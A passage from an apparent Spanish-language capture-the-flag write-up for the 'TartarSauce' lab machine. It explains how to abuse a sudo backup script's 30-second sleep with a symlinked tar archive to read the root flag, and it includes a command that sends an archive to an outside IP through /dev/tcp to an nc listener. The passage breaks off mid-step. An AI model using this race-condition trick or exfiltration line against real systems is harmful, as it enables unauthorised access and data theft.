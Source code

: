 ```bash
fi
```
en este punto analizaremos el script 
1. Elimina el directorio previamente extraído con /bin/rm -rf $tmpdir/.* $check
2. Realiza una copia de seguridad de la corriente $basedirdirectorio a /var/tmp/$RANDOM$con /usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &
3. Espera durante 30 segundos para permitir que se complete la copia de seguridad. 
4. Ejecuta el integrity_checkfunción, comprobando la corriente /var/www/html con lo previamente marcado /var/tmp/check/var/www/html.
Si los directorios son diferentes, imprime un mensaje de error en el registro y no elimina el /var/tmp/checkdirectorio _
Si los directorios coinciden, mueve el actual tarpaquete a /var/backups/onuma-www-dev.baky elimina el /var/tmp/checkdirectorio.

Podríamos aprovechar los 30 segundos del sleep comando para inyectar nuestro propio código en el archivo recién creado. Esto nos permitirá hacer algo como  usar index.html con un enlace simbólico a /root/root.txt. y obtener la flag 
comenzaré comprimiendo todo lo que hay en /var/www/html/
```console
$ onuma@TartarSauce:/dev/shm$ tar -zcvf comprimido.tar /var/www/html/
```
![](/assets/img/commons/TartarSauce/terminal6.png)

una vez comprimido lo pasamos a nuestro sistema

```console
$ onuma@TartarSauce:/dev/shm$ cat < comprimido.tar > /dev/tcp/10.10.14.6/443
```
nos ponemos con nc en modo escucha en espera de recibir archivo y tenemos el comprimido. Posteriormente lo descomprimimos con
